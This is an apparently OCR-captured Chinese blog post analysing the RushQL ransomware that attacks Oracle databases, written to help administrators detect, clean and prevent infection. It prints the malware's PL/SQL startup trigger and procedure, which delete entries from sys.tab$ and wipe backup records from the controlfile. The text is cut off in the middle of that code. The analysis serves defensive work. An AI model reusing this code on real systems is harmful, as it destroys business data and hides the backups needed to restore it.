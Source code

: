 ```yaml
---
layout:     post
title:      Oracle数据库勒索病毒RushQL分析及处理
subtitle:   Oracle数据库勒索病毒卷土重来
date:       2019-01-20
author:     李德鹏
header-img: img/post-bg-halting.jpg
catalog: true
tags:
    - rushql
    - oracle
    - 勒索病毒
    - IT服务
    - 运维
---
```

> 转自[李德鹏blog](https://me.csdn.net/cc_dba)

# 比特币勒索攻击卷土重来

臭名昭著的比特币勒索攻击卷土重来。近期，有客户在巡检Oracle数据库时出现如下勒索警告信息：
![](http://img.yuandingit.com/15479758537800.png)

元鼎科技数据库团队紧急介入后，帮助用户清除病毒，并及时恢复业务挽回损失。为避免更多企业用户受到类似攻击，将处理、分析过程以及预防策略进行总结，用户可及时对自己的数据库环境开展安全自查，并采用有效手段防御类似攻击。

新年第一个周末，用户打电话，可能中了勒索病毒，楞了一下，赶紧安排DBA现场介入，进行处理。Oracle数据库比特币勒索病毒的危害之处有两个，第一是数据库会导致系统表数据被删除（数据库重启后触发），第二是统计信息更新时间如果处于1200天之前，业务数据表会被truncate，导致业务数据丢失。从病毒植入代码角度分段分析可能对系统造成的影响以及处理方式。

# 触发条件1-数据库启动（重启）
数据库重启后，会执行DBMS_SUPPORT_INTERNAL触发器，触发存储过程关键操作有两个：
* 备份sys.tab$表，并删除非sys，（owner#=38）用户的表信息，导致业务对象无法访问。
* 清除控制文件中的备份信息（包含归档、备份集、备份片、备份数据文件），让DBA误认为备份信息不可用。

触发器代码：DBMS_SUPPORT_INTERNAL
```

create or replace trigger "DBMS_SUPPORT_INTERNAL "
after startup on database 
begin
"DBMS_SUPPORT_INTERNAL ";

```
存储过程DBMS_SUPPORT_INTERNAL，根据创建数据库时间和当前时间差值做决定，是立刻入侵并实施勒索，还是潜伏直到条件成熟再进行勒索。

```
PROCEDURE "DBMS_SUPPORT_INTERNAL " IS 
DATE1 INT :=10;
E1 EXCEPTION;
PRAGMA EXCEPTION_INIT(E1, -20312);
BEGIN
SELECT NVL(TO_CHAR(SYSDATE-CREATED ),0) INTO DATE1 FROM V$DATABASE;
IF (DATE1>=1200) THEN
EXECUTE IMMEDIATE 'create table ORACHK'||SUBSTR(SYS_GUID,10)||' tablespace system as select * from sys.tab$';
DELETE SYS.TAB$ WHERE DATAOBJ# IN (SELECT DATAOBJ# FROM SYS.OBJ$ WHERE OWNER# NOT IN (0,38)) ;
COMMIT;
EXECUTE IMMEDIATE 'alter system checkpoint';
SYS.DBMS_BACKUP_RESTORE.RESETCFILESECTION(11);
SYS.DBMS_BACKUP_RESTORE.RESETCFILESECTION(12);
SYS.DBMS_BACKUP_RESTORE.RESETCFILESECTION(13);
SYS.DBMS_BACKUP_RESTORE.RESETCFILESECTION(14);
```